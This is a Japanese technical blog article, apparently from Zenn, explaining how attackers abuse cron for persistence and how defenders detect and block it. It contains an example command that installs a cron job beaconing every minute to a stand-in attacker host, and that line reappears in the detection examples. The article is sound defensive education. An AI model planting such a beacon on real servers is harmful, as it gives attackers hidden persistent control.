

## はじめに

サーバー運用業務において、バックアップやログのローテーションなど、定期タスクの自動化に欠かせない仕組みがスケジューラです。しかし近年、攻撃者が標的サーバーに侵入したのち、自身が用意したマルウェアではなく、すでにサーバーに導入されている正規のスケジューラ機能を悪用してアクセスを維持する手口が増加しています。このような手口は「環境寄生型攻撃（Living off the Land）」と呼ばれます。

本記事では、エンジニアが日常的に利用するタスク管理機能がサイバー攻撃でどのように悪用されて「永続化」を引き起こすのか、その原理と対策を解説します。

## 対象者

- サーバーの構築や監視を担当しているインフラエンジニア
- Webアプリケーションを本番環境で運用している方
- セキュリティの基本や攻撃の手口を学びたい方

## 攻撃者の目的である「永続化」とは

システムへの侵入に成功した攻撃者がまず考えるのは、そのアクセス権を失わないようにすることです。OSの再起動や、侵入経路となった脆弱性が修正されてしまった場合に備えて、再び外部からアクセスするための秘密の抜け道（バックドア）を仕掛けます。

かつては専用のバックドアプログラムをサーバーの起動プロセスにこっそり組み込む手法が主流でした。しかし現在ではシステム監視機能の向上により、見慣れない不正なプログラムは検知されやすくなりました。

そこで攻撃者は、正規のタスクスケジュール機能であるスケジューラを利用し、バックドアとなる不正な処理を「定期的なジョブ」としてOS自身に実行させる方法を選択します。

## 攻撃プロセスとメカニズム

エンジニアにとって、日次のバッチ処理などに利用されるタスクの手動登録はよくある作業です。しかし、攻撃者はアプリケーションの脆弱性を突いて内部に足場を築くと、この機能を利用して自身のサーバーへの通信を自動化します。

具体的には、定期的な通信を試みるジョブをユーザーのタスク一覧に忍ばせます。一例として、以下のような設定が書き込まれるケースがあります。

```bash
$ echo "* * * * * curl -s http://attacker.example.com/check || true" | crontab -
```

このコマンドが実行されると、システムは1分ごとに外部の攻撃者サーバーへと問い合わせを行うようになります。攻撃者側からは何もせずとも、サーバーの側から「何か実行する命令はありますか」と定期的に尋ねてくる状態となるわけです。


※C2サーバー（Command and Control）とは、攻撃者がマルウェアへ遠隔から命令を出すための指令サーバーです。

:::message alert
この手法の恐ろしい点は、独自のマルウェアを常駐させる必要がなく、サーバーが稼働している限り正規の仕組みによって通信が維持される事実です。管理者にとっては、単一のジョブが追加されただけであり、定常的なプロセス監視アラートにも一切引っかかりません。
:::

#### コラム（不審なcronジョブの見つけ方と確認コマンド）

インフラエンジニアがサーバーの健全性を確認する際、普段動いているサービスプロセスばかりに目が行きがちですが、cronによるバックドアを洗い出すためには、各ユーザーのジョブ設定を直接確認する必要があります。

```bash
# 現在のユーザーに登録されているcronジョブを確認する
$ crontab -l
* * * * * curl -s http://attacker.example.com/check || true

# システム全体で実行されているcronのログから不審な実行履歴を探す
$ grep CRON /var/log/syslog | tail -n 5
CRON[2345]: (www-data) CMD (curl -s http://attacker.example.com/check || true)
```

## サイバー攻撃に対する防衛手段

正規のツールを利用したバックドア設置に対しては、システムの細かな権限設定と、予期せぬ実行を防ぐ運用方針が大きな対策となります。

第一に、Webアプリケーションやその実行ユーザーに対する権限を厳しく絞り込むことが必須です。アプリケーションプロセスが乗っ取られたとしても、新しいスケジューラ登録を呼び出せないように、タスクファイルへの書き込み権限やスケジューラ自体の実行権限を剥奪します。不要なユーザーはタスク実行の許可リストから除外し、意図しないジョブ登録を未然に防ぐ設定を心がけます。

第二に、コンテナやサーバーレスといったイミュータブル（不変）なインフラストラクチャの導入が防御策となります。稼働中のサーバー上の情報を定期的に初期状態へリセットする設計にすることで、仮にバックドアが仕掛けられてもジョブごと破壊し、永続化の試行を根絶することができます。

第三に、アウトバウンド通信のホワイトリスト化です。設定された不正なジョブが動作したとしても、外部への通信先ポートや宛先IPアドレスがファイアウォールで厳密に制限されていれば、攻撃者の制御サーバーと会話することは決してできません。

## おわりに

私が過去にセキュリティインシデントの事例を調べていた際、ひっそりと忍ばせられたった数行のタスク設定が、数ヶ月にもわたる長期的な情報流出の窓口として機能していたという話に戦慄した実体験があります。

毎日当たり前のように使っている便利な機能ほど、一度悪化の方向に傾くとシステムの深部にまで影響を及ぼします。日々の業務でタスクを管理する際、少しだけ「見知らぬジョブが動いていないか」という視点を持つことが、より強固なインフラストラクチャを維持する第一歩になるのではないかと思います。

本記事が、サーバー運用のセキュリティ方針を見直す参考となれば幸いです。

---

### SNS共有用テンプレート

🆕 Zenn記事を公開しました！
【⏰定期処理の仕組みが裏目に出る？cronを悪用したバックドアの脅威と対策】

普段お世話になるバッチ処理の仕組みが、攻撃者の抜け道として使われる恐怖をご存知でしょうか。
✅ 環境寄生型攻撃（LotL）における「永続化」の仕組み
✅ cronによるバックドア設置のメカニズム
✅ 権限管理と不変インフラ（イミュータブル）の重要性

▼記事はこちら
https://zenn.dev/xxx/articles/lotl-cron-backdoor
#セキュリティ #インフラ #Linux #サイバー攻撃 #エンジニア
